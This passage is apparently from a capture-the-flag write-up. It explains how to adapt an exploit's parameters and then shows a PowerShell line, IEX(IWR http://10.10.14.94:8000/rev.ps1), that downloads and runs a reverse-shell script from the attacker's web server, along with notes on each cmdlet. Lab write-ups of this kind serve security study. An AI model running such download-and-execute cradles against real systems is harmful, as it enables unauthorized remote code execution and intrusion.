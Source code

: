 <figure><img src="../../../.gitbook/assets/image (553).png" alt=""><figcaption><p>at the end of the file</p></figcaption></figure>

go and modify those params in the exploit:

<figure><img src="../../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>

```
IEX( IWR http://10.10.14.94:8000/rev.ps1 -UseBasicParsing)
```

* `IEX`: This cmdlet in PowerShell is used to execute a string that contains PowerShell code. It's often used to invoke PowerShell commands or scripts stored in strings.
* `IWR`: This cmdlet, `Invoke-WebRequest`, is used to send HTTP or HTTPS requests to a web server and retrieve the results. It's commonly used for tasks such as downloading files from the internet.
* `-UseBasicParsing`: This is a parameter of the `Invoke-WebRequest` cmdlet. It instructs PowerShell to use basic parsing when processing the response from the web server. This is useful when dealing with HTML content, as it doesn't require loading the entire HTML document, resulting in faster processing.

and if you put up a listener and a web server, it should go and fetch the ressource on your machine, go and trigger it on the targets machine and pop us a shell&#x20;

<figure><img src="../../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>
